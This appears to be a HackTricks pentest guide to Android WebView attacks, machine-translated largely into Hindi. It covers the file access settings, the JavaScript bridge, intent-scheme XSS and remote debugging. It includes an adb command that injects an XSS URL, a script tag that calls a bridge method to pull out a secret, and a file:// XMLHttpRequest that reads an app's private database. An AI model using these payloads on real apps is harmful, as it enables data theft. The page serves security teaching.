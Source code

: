 # Webview Attacks

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Guide on WebView Configurations and Security

### Overview of WebView Vulnerabilities

Android विकास का एक महत्वपूर्ण पहलू WebViews का सही प्रबंधन करना है। यह गाइड WebView उपयोग से संबंधित जोखिमों को कम करने के लिए प्रमुख कॉन्फ़िगरेशन और सुरक्षा प्रथाओं को उजागर करती है।

![WebView Example](<../../.gitbook/assets/image (1190).png>)

### **File Access in WebViews**

डिफ़ॉल्ट रूप से, WebViews फ़ाइल एक्सेस की अनुमति देते हैं। यह कार्यक्षमता `setAllowFileAccess()` विधि द्वारा नियंत्रित होती है, जो Android API स्तर 3 (Cupcake 1.5) से उपलब्ध है। **android.permission.READ\_EXTERNAL\_STORAGE** अनुमति वाले अनुप्रयोग बाहरी संग्रहण से फ़ाइलों को फ़ाइल URL स्कीम (`file://path/to/file`) का उपयोग करके पढ़ सकते हैं।

#### **Deprecated Features: Universal and File Access From URLs**

* **Universal Access From File URLs**: यह अप्रचलित विशेषता फ़ाइल URLs से क्रॉस-ओरिजिन अनुरोधों की अनुमति देती थी, जो संभावित XSS हमलों के कारण महत्वपूर्ण सुरक्षा जोखिम प्रस्तुत करती थी। Android Jelly Bean और नए लक्षित ऐप्स के लिए डिफ़ॉल्ट सेटिंग अक्षम है (`false`)।
* इस सेटिंग की जांच करने के लिए, `getAllowUniversalAccessFromFileURLs()` का उपयोग करें।
* इस सेटिंग को संशोधित करने के लिए, `setAllowUniversalAccessFromFileURLs(boolean)` का उपयोग करें।
* **File Access From File URLs**: यह विशेषता, जो भी अप्रचलित है, अन्य फ़ाइल स्कीम URLs से सामग्री तक पहुँच को नियंत्रित करती थी। सार्वभौमिक पहुँच की तरह, इसकी डिफ़ॉल्ट सुरक्षा के लिए अक्षम है।
* जांचने के लिए `getAllowFileAccessFromFileURLs()` का उपयोग करें और सेट करने के लिए `setAllowFileAccessFromFileURLs(boolean)` का उपयोग करें।

#### **Secure File Loading**

संपत्ति और संसाधनों तक पहुँच प्राप्त करते समय फ़ाइल सिस्टम एक्सेस को अक्षम करने के लिए, `setAllowFileAccess()` विधि का उपयोग किया जाता है। Android R और उसके ऊपर, डिफ़ॉल्ट सेटिंग `false` है।

* `getAllowFileAccess()` के साथ जांचें।
* `setAllowFileAccess(boolean)` के साथ सक्षम या अक्षम करें।

#### **WebViewAssetLoader**

**WebViewAssetLoader** वर्ग स्थानीय फ़ाइलों को लोड करने के लिए आधुनिक दृष्टिकोण है। यह स्थानीय संपत्तियों और संसाधनों तक पहुँच के लिए http(s) URLs का उपयोग करता है, जो समान-स्रोत नीति के साथ संरेखित होता है, इस प्रकार CORS प्रबंधन को सुविधाजनक बनाता है।

### loadUrl

यह एक सामान्य फ़ंक्शन है जिसका उपयोग वेबव्यू में मनमाने URLs को लोड करने के लिए किया जाता है:
```java
webview.loadUrl("<url here>")
```
Ofc, एक संभावित हमलावर को कभी भी **URL** को नियंत्रित करने में सक्षम नहीं होना चाहिए जिसे एक एप्लिकेशन लोड करने जा रहा है।

### **JavaScript और Intent Scheme हैंडलिंग**

* **JavaScript**: WebViews में डिफ़ॉल्ट रूप से अक्षम होता है, इसे `setJavaScriptEnabled()` के माध्यम से सक्षम किया जा सकता है। उचित सुरक्षा उपायों के बिना JavaScript को सक्षम करना सुरक्षा कमजोरियों को जन्म दे सकता है, इस पर सावधानी बरतने की सलाह दी जाती है।
* **Intent Scheme**: WebViews `intent` स्कीम को संभाल सकते हैं, यदि सावधानी से प्रबंधित नहीं किया गया तो यह शोषण की संभावना पैदा कर सकता है। एक उदाहरण की कमजोरी में एक एक्सपोज़्ड WebView पैरामीटर "support\_url" शामिल था जिसे क्रॉस-साइट स्क्रिप्टिंग (XSS) हमलों को निष्पादित करने के लिए शोषित किया जा सकता था।

![Vulnerable WebView](<../../.gitbook/assets/image (1191).png>)

adb का उपयोग करके शोषण का उदाहरण:

{% code overflow="wrap" %}
```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```
{% endcode %}

### Javascript Bridge

Android द्वारा एक विशेषता प्रदान की गई है जो **JavaScript** को एक WebView में **स्थानीय Android ऐप कार्यों** को कॉल करने की अनुमति देती है। यह `addJavascriptInterface` विधि का उपयोग करके प्राप्त किया जाता है, जो JavaScript को स्थानीय Android कार्यक्षमताओं के साथ एकीकृत करता है, जिसे _WebView JavaScript bridge_ कहा जाता है। सावधानी बरतने की सलाह दी जाती है क्योंकि यह विधि WebView के भीतर सभी पृष्ठों को पंजीकृत JavaScript इंटरफ़ेस ऑब्जेक्ट तक पहुँचने की अनुमति देती है, यदि संवेदनशील जानकारी इन इंटरफेस के माध्यम से उजागर होती है तो यह एक सुरक्षा जोखिम पैदा कर सकती है।

* **अत्यधिक सावधानी की आवश्यकता है** उन ऐप्स के लिए जो Android संस्करण 4.2 से नीचे लक्षित करते हैं, क्योंकि एक भेद्यता है जो दुर्भावनापूर्ण JavaScript के माध्यम से दूरस्थ कोड निष्पादन की अनुमति देती है, जो परावर्तन का शोषण करती है।

#### Implementing a JavaScript Bridge

* **JavaScript इंटरफेस** स्थानीय कोड के साथ बातचीत कर सकते हैं, जैसा कि उदाहरणों में दिखाया गया है जहाँ एक वर्ग विधि को JavaScript के लिए उजागर किया गया है:
```javascript
@JavascriptInterface
public String getSecret() {
return "SuperSecretPassword";
};
```
* JavaScript ब्रिज को WebView में एक इंटरफेस जोड़कर सक्षम किया जाता है:
```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge");
webView.reload();
```
* JavaScript के माध्यम से संभावित शोषण, उदाहरण के लिए, XSS हमले के माध्यम से, उजागर किए गए Java विधियों को कॉल करने की अनुमति देता है:
```html
<script>alert(javascriptBridge.getSecret());</script>
```
* जोखिमों को कम करने के लिए, **JavaScript ब्रिज उपयोग को** APK के साथ भेजे गए कोड तक सीमित करें और दूरस्थ स्रोतों से JavaScript लोड करने से रोकें। पुराने उपकरणों के लिए, न्यूनतम API स्तर को 17 पर सेट करें।

### Reflection-based Remote Code Execution (RCE)

* एक प्रलेखित विधि RCE प्राप्त करने की अनुमति देती है जो एक विशिष्ट पेलोड को निष्पादित करके होती है। हालाँकि, `@JavascriptInterface` एनोटेशन अनधिकृत विधि पहुंच को रोकता है, जिससे हमले की सतह सीमित होती है।

### Remote Debugging

* **Remote debugging** **Chrome Developer Tools** के साथ संभव है, जो WebView सामग्री के भीतर बातचीत और मनमाने JavaScript निष्पादन की अनुमति देता है।

#### Enabling Remote Debugging

* एक एप्लिकेशन के भीतर सभी WebViews के लिए Remote debugging को सक्षम किया जा सकता है:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
WebView.setWebContentsDebuggingEnabled(true);
}
```
* एप्लिकेशन की डिबग करने योग्य स्थिति के आधार पर शर्तीय रूप से डिबगिंग सक्षम करने के लिए:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
{ WebView.setWebContentsDebuggingEnabled(true); }
}
```
## मनमाने फ़ाइलों को निकालना

* XMLHttpRequest का उपयोग करके मनमाने फ़ाइलों के निष्कासन का प्रदर्शन करता है:
```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
alert(xhr.responseText);
}
}
xhr.open('GET', 'file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db', true);
xhr.send(null);
```
## संदर्भ

* [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
* [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
* [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)
* [https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1](https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1)
* [https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I](https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

